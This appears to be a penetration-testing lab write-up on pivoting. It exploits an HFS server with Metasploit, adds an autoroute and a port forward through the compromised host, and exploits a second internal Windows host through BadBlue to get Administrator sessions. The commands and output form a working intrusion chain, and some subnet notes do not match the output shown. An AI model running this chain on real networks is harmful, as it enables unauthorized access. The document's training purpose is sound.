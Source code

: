 # 🔬Pivoting

> 🔬 [Pivoting](https://attackdefense.com/challengedetails?cid=2332)
>
> * Victim1 IP: `10.0.19.22`
> * VIctim2 IP: `10.0.24.208`
> * **Pivoting** technique with a _network route_ to the internal network's subnet

## Enumeration & Exploitation <a href="#enumeration-and-exploitation" id="enumeration-and-exploitation"></a>

```bash
ping 10.0.19.22
    PING 10.0.19.22 (10.0.19.22) 56(84) bytes of data.
    64 bytes from 10.0.19.22: icmp_seq=1 ttl=125 time=3.29 ms
    64 bytes from 10.0.19.22: icmp_seq=2 ttl=125 time=2.34 ms
ping 10.0.24.208
    PING 10.0.24.208 (10.0.24.208) 56(84) bytes of data.
# No response from Victim2
```

```bash
nmap 10.0.19.22
    PORT      STATE SERVICE
    80/tcp    open  http
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    445/tcp   open  microsoft-ds
    3389/tcp  open  ms-wbt-server
    49152/tcp open  unknown
    49153/tcp open  unknown
    49154/tcp open  unknown
    49155/tcp open  unknown
```

```bash
nmap -sV -p 80 10.0.19.22
    PORT   STATE SERVICE VERSION
    80/tcp open  http    HttpFileServer httpd 2.3
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```bash
searchsploit HFS
service postgresql start && msfconsole -q
exploit/windows/http/rejetto_hfs_exec
options
set RHOSTS 10.0.19.22
exploit
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
    
getuid
    Server username: WIN-OMCNBKR66MN\Administrator
    
ipconfig
    Interface  1
    ============
    Name         : Software Loopback Interface 1
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 4294967295
    IPv4 Address : 127.0.0.1
    IPv4 Netmask : 255.0.0.0
    IPv6 Address : ::1
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
    
    
    Interface 14
    ============
    Name         : Microsoft ISATAP Adapter
    Hardware MAC : 00:00:00:00:00:00
    MTU          : 1280
    IPv6 Address : fe80::5efe:a00:1316
    IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
    
    
    Interface 21
    ============
    Name         : Amazon Elastic Network Adapter
    Hardware MAC : 06:a3:a5:cb:d0:bf
    MTU          : 1500
    IPv4 Address : 10.0.19.22
    IPv4 Netmask : 255.255.240.0
    IPv6 Address : fe80::585e:cfc0:6c06:6201
    IPv6 Netmask : ffff:ffff:ffff:ffff::
```

* Victim2 is on the same Victim1 subnet - **`10.2.16.0/20`** (look at the Interface 12)
  * `10.2.16.0/20` = from `10.2.16.1` to `10.2.31.254` = `10.2.20.0/20`

## Pivoting <a href="#pivoting" id="pivoting"></a>

* From the attacker's machine, a route through "Victim1 `10.2.20.0/20` machine" is needed, to run MSF modules against Victim2 machine

```bash
run autoroute -h

    [!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
    [!] Example: run post/multi/manage/autoroute OPTION=value [...]
    [*] Usage:   run autoroute [-r] -s subnet -n netmask
    [*] Examples:
    [*]   run autoroute -s 10.1.1.0 -n 255.255.255.0  # Add a route to 10.10.10.1/255.255.255.0
    [*]   run autoroute -s 10.10.10.1                 # Netmask defaults to 255.255.255.0
    [*]   run autoroute -s 10.10.10.1/24              # CIDR notation is also okay
    [*]   run autoroute -p                            # Print active routing table
    [*]   run autoroute -d -s 10.10.10.1              # Deletes the 10.10.10.1/255.255.255.0 route
    [*] Use the "route" and "ipconfig" Meterpreter commands to learn about available routes
    [-] Deprecation warning: This script has been replaced by the post/multi/manage/autoroute module
```

```bash
run autoroute -s 10.0.19.0/20
```

```bash
[*] Adding a route to 10.0.19.0/255.255.240.0...
[+] Added route to 10.0.19.0/255.255.240.0 via 10.0.19.22
[*] Use the -p option to list all active routes
```

```bash
run autoroute -p
```

```bash
Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.0.19.0          255.255.240.0      Session 1
```

* &#x20;Now, subnet `10.0.19.0/20` can be accessed with `MSFconsole`

```bash
background
```

* Scan for open ports on the Victim2 system - `10.0.24.208`

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.0.24.208
set PORTS 1-100
run
```

```bash
[+] 10.0.24.208:          - 10.0.24.208:80 - TCP OPEN
[*] 10.0.24.208:          - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

* 📌 The route is only applicable to `MSFconsole`, not outside of it

## Port Forwarding <a href="#port-forwarding" id="port-forwarding"></a>

* To perform an `nmap` scan on Victim2, **a port forwarding need to be set up**.
  * **`e.g.`** forward the remote port `80` to an attacker machine local port, which will allow to perform a service version enumeration of the Victim2 service

```bash
sessions 1
```

```bash
portfwd -h
    Usage: portfwd [-h] [add | delete | list | flush] [args]
    
    
    OPTIONS:
    
        -L <opt>  Forward: local host to listen on (optional). Reverse: local host to connect to.
        -R        Indicates a reverse port forward.
        -h        Help banner.
        -i <opt>  Index of the port forward entry to interact with (see the "list" command).
        -l <opt>  Forward: local port to listen on. Reverse: local port to connect to.
        -p <opt>  Forward: remote port to connect to. Reverse: remote port to listen on.
        -r <opt>  Forward: remote host to connect to.
```

```bash
portfwd add -l 1234 -p 80 -r 10.0.24.208
    [*] Local TCP relay created: :1234 <-> 10.0.24.208:80
```

```bash
portfwd list

   Active Port Forwards
   ====================
   
      Index  Local           Remote        Direction
      -----  -----           ------        ---------
      1      10.0.24.208:80  0.0.0.0:1234  Forward
   
   1 total active port forwards.
```

```bash
nmap -sV -sS -p 1234 localhost
```

<figure><img src="../../../../.gitbook/assets/image (322).png" alt=""><figcaption></figcaption></figure>

* Exploit Victim2 target machine

```bash
searchsplouit badblue
use exploit/windows/http/badblue_passthru
set payload windows/meterpreter/bind_tcp
set RHOSTS 10.0.24.208
run
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
    
getuid
    Server username: ATTACKDEFENSE\Administrator
```

```bash
background
sessions
```

<figure><img src="../../../../.gitbook/assets/image (323).png" alt=""><figcaption></figcaption></figure>
